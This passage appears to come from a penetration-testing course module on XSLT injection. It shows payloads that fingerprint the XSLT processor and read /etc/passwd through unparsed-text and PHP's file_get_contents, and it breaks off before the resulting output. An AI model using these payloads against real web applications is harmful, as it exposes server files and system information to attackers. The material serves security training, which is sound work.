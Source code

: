 ## Information Disclosure

We can try to infer some basic information about the XSLT processor in use by injecting the following XSLT elements:

Code: xml

```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

The web application provides the following response:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_4.png)

Since the web application interpreted the XSLT elements we provided, this confirms an XSLT injection vulnerability. Furthermore, we can deduce that the web application seems to rely on the `libxslt` library and supports XSLT version `1.0`.

---

## Local File Inclusion (LFI)

We can try to use multiple different functions to read a local file. Whether a payload will work depends on the XSLT version and the configuration of the XSLT library. For instance, XSLT contains a function `unparsed-text` that can be used to read a local file:

Code: xml

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

However, it was only introduced in XSLT version 2.0. Thus, our sample web application does not support this function and instead errors out. However, if the XSLT library is configured to support PHP functions, we can call the PHP function `file_get_contents` using the following XSLT element:

Code: xml

```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

Our sample web application is configured to support PHP functions. As such, the local file is displayed in the response:

   
